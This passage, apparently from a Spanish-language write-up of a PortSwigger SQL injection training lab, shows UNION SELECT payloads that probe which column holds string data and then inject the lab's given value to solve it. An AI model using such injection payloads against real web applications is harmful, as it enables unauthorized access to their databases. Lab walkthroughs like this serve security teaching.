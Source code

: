 ```plaintext
' UNION SELECT 'a', NULL, NULL-- Devuelve un mensaje de error.
' UNION SELECT NULL, 'a', NULL: devuelve el código de respuesta 200.
' UNION SELECT NULL, NULL, 'a'-- Devuelve un mensaje de error.
```

Por lo tanto, la columna 2 tiene el tipo de datos de cadena.

## PASO 3: Devuelve una fila adicional que contiene el valor de cadena proporcionado en el laboratorio

Valor proporcionado por el laboratorio: ' NAv682'

Puede usar el valor de cadena proporcionado en lugar de 'a' para resolver el ejercicio de laboratorio de la siguiente manera:

```plaintext
' UNION SELECT NULL, 'NAv682', NULL --
```

Laboratorio resuelto.

<p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_finding_column_containing_text/10.png" width="1000">
</p><br>

<p align="center">